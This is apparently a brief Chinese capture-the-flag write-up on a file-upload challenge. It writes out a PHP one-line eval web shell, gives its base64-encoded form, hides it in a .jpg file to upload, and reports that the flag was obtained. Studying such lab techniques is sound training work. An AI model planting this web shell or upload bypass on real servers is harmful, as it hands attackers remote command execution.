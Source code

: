 

构造一句话木马

```
<?php @eval($_POST['cmd']);?>
```



对一句话木马进行base64编码

```
PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=
```



将经过base64编码后的一句话木马写入1.jpg，然后上传

![image-20231104144851719](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144851719.png)

![image-20231104144909763](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144909763.png)



成功拿到flag值
